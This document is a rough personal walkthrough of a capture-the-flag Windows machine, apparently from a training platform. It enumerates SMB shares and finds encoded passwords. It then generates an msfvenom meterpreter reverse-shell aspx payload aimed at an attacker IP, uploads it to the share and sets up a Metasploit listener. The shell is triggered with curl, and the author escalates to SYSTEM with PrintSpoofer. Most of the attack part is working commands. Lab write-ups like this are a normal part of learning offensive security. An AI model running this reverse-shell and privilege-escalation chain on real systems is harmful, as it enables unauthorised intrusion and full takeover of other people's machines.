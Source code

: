getend group | grep kali -> look at groups which are in kali
install docker - sudo apt install docker.io
sudo apt install podman - install podman
sudo visudo - sudoers
sudo usermod -aG nameofgroup nameofuser
(sudo usermod -aG docker mark)

1. did the nmap scan. found smb on 445 and RDP on 3389

2. enumerating SMB port
run smb client

[smbclient -L ip -p 445]
[locate .nse |grep smb-enum] - run these script using nmap scripts[nmap --script=]

after the enumerating we can find out that there is a share named nt4wrksv.  then we can log into it and see the content. 

[smbclient //ip/nt4wrksv] or [smbclient \\\\ip\\nt4wrksv]

we found password.txt in this share. its encoded using base64. lets be there later.

__ check whether users and passwords are valid __
use psexec.py

[python3 psexec.py 'bob:password@ip']

evil-winrm also can be used. but didn't work in this machine

[evil-winrm --ip ip --user username --password password]

3. run vulnerability scan using nmap script.

[nmap --script vuln -Pn -p ports ip] - -Pn - doesn't check whether ports are exist.

we found (ms17-010) remote code execution. 
using searchploit we can get eternalblue exploit. 

[searchsploit eternalblue]

lets mirror windows server 2016 exploit to current working dir.

[searchsploit -m ]


# first step

i went for this step. it seems easy. i created a revese shell using msfvenom and uploaded it to smb share and triggered it using web. 
creating the reverse shell. 
[msfvenom -l payloads | grep windows | grep reverse | grep shell ]

[msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options]

[msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx] - windows/x64/meterpreter/reverse_tcp also worked

also pentest.ws site can be used to create the same path to get the reverse shell

[ https://pentest.ws/tools/venom-builder ]

put the shell in shares. 
[smbclient //ip/sharename] then [put shell.aspx]

creating the listner 

[kali@kali:/data/vpn$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run]

triggering the shell.aspx

[curl http://ip:49663/sharename/shell.aspx]

then it will connect to the server. go to the bob desktop. there will be the user flag. 

[cd c:/users/bob/Desktop]


# Root priviledge 

first use shell command u idiot.

[shell]

now see the priviledges 

[whoami /priv]

Now that we have shell access we can use the whoami /priv command to check our user privileges. We see that we have SeImpersonate privileges, which can commonly be used to escalate using a potato attack, or with incognito if impersonation tokens exist. However, DCOM is disabled on this server which prevents potato attacks, and there are no tokens to impersonate.
(i don't know what this is)

There is a newer exploit that came about several months ago called [Printspoofer](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) that exploits a vulnerability in Windows where certain service accounts are required to run with elevated privileges utilizing the SeImpersonate privilege. We see that we are the iis apppool\defaultapppool service account user, which should allow us to elevate using the Printspoofer exploit.

upload printspoofer to the smb share. 

now go to this directory

[cd c:/intepub/wwwroot] now u can see the smb share in it. go to it. and run the exe file.

[PrintSpoofer -i -c cmd] - to gain root priviledges .

[whoami] - will show nt authority/system.

[cd c:/users/administrator/desktop/] there will be root.txt

[type root.txt] - will read it. cat command doesn't work


